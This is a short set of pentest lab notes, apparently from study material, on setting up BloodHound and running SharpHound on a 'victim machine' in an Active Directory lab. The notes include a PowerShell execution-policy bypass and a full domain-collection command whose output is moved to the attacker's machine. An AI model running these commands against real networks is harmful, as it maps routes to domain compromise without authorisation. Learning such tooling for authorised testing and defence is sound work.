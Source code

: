 # Bloodhound Overview

## Overview

* downloads AD data once we are on a machine/within the network and puts it into a graph
* automates/supercedes Powerview
* part of Empire

## Azure Update

* [https://posts.specterops.io/introducing-bloodhound-4-0-the-azure-update-9b2b26c5e350](https://posts.specterops.io/introducing-bloodhound-4-0-the-azure-update-9b2b26c5e350)

## Install and Setup

### Bloodhound (Attacking Machine)

```bash
apt install bloodhound
sudo neo4j console
```

```bash
bloodhound #(in a seperate window terminal)
```

* connect to the local URL it gives you (default user:pass is “neo4j”)
* sign into the website

### Invoke-Bloodhound (Victim Machine)

* [https://github.com/puckiestyle/powershell](https://github.com/puckiestyle/powershell)[https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* put the file on the machine

## Running Bloodhound (Victim Machine)

```bash
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
```

* move zip from victim to attacker machine

## Importing and Viewing Data

```bash
sudo neoj4 console
bloodhound #(sign into the website panel)
```

* upload zip file
* click little hamburger
* “Analysis” has awesome built in queries

## Resources

* [https://hunter2.gitbook.io/darthsidious/enumeration/bloodhound](https://hunter2.gitbook.io/darthsidious/enumeration/bloodhound)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)
